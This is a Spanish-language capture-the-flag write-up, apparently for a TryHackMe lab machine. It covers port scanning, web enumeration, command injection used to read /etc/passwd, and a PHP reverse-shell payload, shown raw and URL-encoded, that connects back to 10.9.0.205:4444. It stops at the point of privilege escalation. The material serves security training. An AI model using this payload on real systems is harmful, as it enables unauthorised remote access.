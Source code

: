 Realizamos un escaneo de nmap y encontramos los siguientes puertos abiertos
![[Pasted image 20240906084644.png]]

Al acceder al puerto 80 nos encontramos con la siguiente web
![[Pasted image 20240906084758.png]]

Analizamos la web y de primeras no encontramos nada relevante que podamos explotar
![[Pasted image 20240906084921.png|500]]

Enumeramos archivos y directorios pero no obtenemos nada
![[Pasted image 20240906085820.png]]

Ahora analizamos el subdirecorio de assets
![[Pasted image 20240906091503.png]]

Intentamos acceder al directorio de images pero sin exito
![[Pasted image 20240906091537.png]]

Intentamos hacer una injección de comandos y nos devuelve una cadena en base 64
![[Pasted image 20240906091808.png]]

Lo decodificamos en base64 y obtenemos la siguiente salida que parecen unas url, 
![[Pasted image 20240906091934.png]]

Volvemos a realizar la injección de comandos en el fichero `/tec/passwd` y nos devuelve la salida en base64
![[Pasted image 20240906092220.png]]

La decodificamos y obtenemos el listado de usuarios
![[Pasted image 20240906092329.png]]

Ahora intentaremos generarnos la reverse shell, para ello ejecutamos el payload en el navegador pero no obtenemos la reverse shell
```
http://school.thm/assets/index.php?cmd=php -r '$sock=fsockopen("10.9.0.205",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```
![[Pasted image 20240906092855.png]]

Asi que codificamos la URL y ahora si obtenemos la reverse shell
```
http://school.thm/assets/index.php?cmd=php%20-r%20%27%24sock%3Dfsockopen%28%2210.9.0.205%22%2C4444%29%3Bexec%28%22%2Fbin%2Fsh%20-i%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27
```
![[Pasted image 20240906093022.png]]

Este es el programa que nos ha permitido generarnos la reverse shell
![[Pasted image 20240906094113.png]]

Nos generamos una shell estable y ahora buscaremos escalar privilegios al usuario deku
![[Pasted image 20240906093916.png]]
